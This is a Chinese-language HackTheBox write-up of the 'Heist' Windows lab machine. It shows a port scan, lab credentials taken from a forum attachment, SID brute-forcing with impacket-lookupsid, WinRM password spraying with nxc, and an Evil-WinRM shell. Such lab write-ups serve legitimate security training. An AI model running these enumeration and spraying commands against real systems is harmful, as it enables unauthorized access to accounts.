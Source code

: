 ```yaml
---
title: Heist
weight: 201
tags:
  - windows
  - easy
  - winrm
  - rid-cycling
---
```



### 1. 信息收集

> [!note]
> 机器ip：10.10.10.149
> 攻击机ip：10.10.14.6


```
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack
135/tcp   open  msrpc        syn-ack
445/tcp   open  microsoft-ds syn-ack
5985/tcp  open  wsman        syn-ack
49669/tcp open  msrpc        syn-ack
```


[[80,443 - Web]] 探索一番，发现有一个 `Hazard` 用户在向 Support 寻求帮助。从他发的附件文件里面，收集到以下账户密码：

[Cisco Type 7 Password Decrypt / Decoder / Crack Tool](https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html)

```
Hazard: stealth1agent
rout3r: $uperP@ssword
admin: Q4)sJu\Y8qz*A3?d
```


```bash
┌──(kali㉿kali)-[~/Documents/01-HackTheBox/01-Machines/Heist]
└─$ impacket-lookupsid 'Hazard':'stealth1agent'@'10.10.10.149'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)

```

```bash
┌──(kali㉿kali)-[~/Documents/01-HackTheBox/01-Machines/Heist]
└─$ nxc winrm 10.10.10.149 -u username.list -p password.list  
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```


```bash
*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

